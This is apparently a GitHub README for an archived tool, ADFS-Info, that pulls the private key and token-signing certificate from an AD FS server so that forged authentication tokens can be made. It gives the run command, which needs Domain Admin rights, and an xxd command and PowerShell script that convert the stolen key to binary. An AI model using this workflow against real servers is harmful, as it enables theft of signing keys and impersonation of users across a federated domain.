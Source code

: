 > [!IMPORTANT]
> "This repo is now in 'Blue Screen' mode—archived and frozen in time!"

# ADFS-Info

I created a small project to get the private key and token-signing certificate from an AD FS server to create forged tokens.

For more information about this attack, please check my blog post:  
https://thalpius.com/2020/12/28/microsoft-defender-for-identity-adfsdump/

# Usage ADFS-Info
Run the tool on the AD FS server with Domain Admin privileges or with the AD FS service account:  
```cmd
ADFS-Info.exe
```

To convert the private key to the correct binary format on Linux use xxd:  
```bash
xxd -r -p keyinput.bin keyoutput.bin
```

To convert the private key to the correct binary format on Windows use PowerShell:  

```PowerShell
$HexStringfile = "C:\users\thalpius\desktop\keyinput.bin"
$OutputFile = "C:\users\thalpius\desktop\keyoutput.bin"

$HexString = Get-Content -readcount 0 -path $HexStringFile
$HexString = $HexString[0]
$count = $hexString.length
$byteCount = $count/2
$bytes = New-Object byte[] $byteCount
$byte = $null

$x = 0
for ( $i = 0; $i -le $count-1; $i+=2 ) { 
  $bytes[$x] = [byte]::Parse($hexString.Substring($i,2), [System.Globalization.NumberStyles]::HexNumber)
  $x += 1
}

Set-Content -encoding byte $OutputFile -value $bytes
```

**Note**: Always use the last created private key.

# Screenshot

![Alt text](/Screenshots/ADFSInfo01.jpg?raw=true "ADFS Info")
